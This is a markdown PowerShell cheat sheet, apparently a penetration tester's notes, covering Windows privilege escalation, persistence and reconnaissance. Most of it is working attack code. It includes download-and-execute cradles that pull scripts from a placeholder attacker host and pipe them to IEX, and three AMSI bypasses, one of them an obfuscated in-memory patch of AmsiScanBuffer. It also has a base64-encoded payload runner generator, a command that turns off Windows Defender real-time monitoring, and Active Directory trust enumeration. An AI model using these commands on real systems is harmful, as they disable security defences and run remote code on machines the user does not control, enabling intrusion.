 # powershell

#platform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## Download cradle
```powershell
(new-object system.net.webclient).downloadstring('http://<ip>/<script>') | IEX
```

## Get file in trash
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

## Get process
```powershell
Get-Process
```

## Get Proxy
```powershell
[System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://<ip>/<url>")
```

## Get language mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```

## Bypass AMSI with _amsiContext_ (powershell only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## Bypass AMSI with _AmsiInitFailed_ (powershell only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

## Bypass AMSI by patching (work for .NET binaries too)

more infos here : https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

## Verify PPL
```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

## Verify application whitelisting
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

## show forest trust
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## Get domain trust
```powershell
Get-DomainTrust -Domain <domain>
```

## Get domain SID
```powershell
Get-DomainSID -domain <sid>
```

## hostrecon
https://github.com/dafthack/HostRecon

```
(new-object system.net.webclient).downloadstring('http://<lhost>/HostRecon.ps1') | IEX; Invoke-HostRecon
```

## privesccheck
https://github.com/itm4n/PrivescCheck

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/PrivescCheck.ps1') | IEX; Invoke-PrivescCheck
```

## powershell view assemblies
```powershell
[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname
```

## powershell get proxy address
```powershell
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
```

## powershell set proxy
```powershell
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://<proxaddress|$proxyAddr>")
```

## powershell - generate base64 encoded payload download runner
#platform/linux #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

```powershell
pwsh -Command '$text = "(New-Object System.Net.WebClient).DownloadString(''http://<lhost>/<file>'') | IEX";$bytes = [System.Text.Encoding]::Unicode.GetBytes($text);$EncodedText = [Convert]::ToBase64String($bytes);$EncodedText'
```

## powershell - disable Real Time Monitoring (Windows Defender)
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```